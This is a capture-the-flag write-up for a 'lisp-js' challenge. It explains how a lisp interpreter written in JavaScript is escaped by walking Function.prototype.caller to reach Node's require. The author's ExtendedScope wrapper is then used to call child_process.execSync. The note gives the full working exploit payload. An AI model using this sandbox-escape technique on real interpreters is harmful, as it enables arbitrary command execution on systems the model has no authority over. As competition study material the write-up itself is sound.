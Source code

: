 # Misc - lisp-js

## Overview

The challenge implements a lisp-like language interpreter using JavaScript.

## Bug

By accessing some builtin properties in JS, attacker can traverse stacktrace using `Function.prototype.caller` to get objects outside the interpreter e.g., node.js `require` that has `.cache` property that contains other loaded modules inside.
But still, we couldn't run JS e.g., using `Function("code")` since dynamic code generation was disabled.
Also, calling javascript function from interpreter was difficult because the arguments passed to specified functions are not fully controlled.
Fortunately, there was `ExtendedScope` given by author, which has interpreter functions inside that wraps arbitrary JavaScript function to interpreter-compatible function.

## Exploit

```lisp
(do
(let caller (. do "caller"))
(let caller (. caller "caller"))
(let caller (. caller "caller"))
(let require (. (. caller "arguments") 1))
(let module (. (. caller "arguments") 2))
(let runtime (. (. module "children") 0))
(let runtimeExports (. runtime "exports"))
(let extendedScope ((. runtimeExports "extendedScope")))
(let j2l (. (. extendedScope "table") "j2l"))
((j2l (. ((j2l require) "child_process") "execSync")) "./readflag" (object (list "encoding" "utf-8")))
)
```